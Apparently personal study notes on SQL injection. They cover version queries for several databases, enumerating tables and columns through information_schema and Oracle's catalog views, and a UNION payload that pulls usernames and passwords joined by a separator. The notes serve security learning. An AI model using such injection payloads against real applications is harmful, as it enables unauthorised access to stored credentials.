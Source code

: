 The queries to determine the database version for some popular database types are as follows:
```
| Database type    | Query                   |
| ---------------- | ----------------------- |
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |
```

---

#### Listing the contents of the database
- query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:
```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| MyDatabase    | dbo          | Feedback   | BASE TABLE |
```

- query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:
```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ----------- | ---------- |
| MyDatabase    | dbo          | Users      | UserId      | int        |
| MyDatabase    | dbo          | Users      | Username    | varchar    |
| MyDatabase    | dbo          | Users      | Password    | varchar    |
```

---

#### Equivalent to information schema on Oracle
- list tables by querying all_tables:
  - `SELECT * FROM all_tables`

- list columns by querying all_tab_columns:
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`


---

#### Retrieving multiple values within a single column

- instead that the query only returns a single column.
- can easily retrieve multiple values together within this single column by concatenating the values together, 
- ideally including a suitable separator to let you distinguish the combined values. 
- For example
  - on Oracle you could submit the input:
  - `' UNION SELECT username || '~' || password FROM users--`
  - the double-pipe sequence `||`: a string concatenation operator on Oracle. 
  - The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.
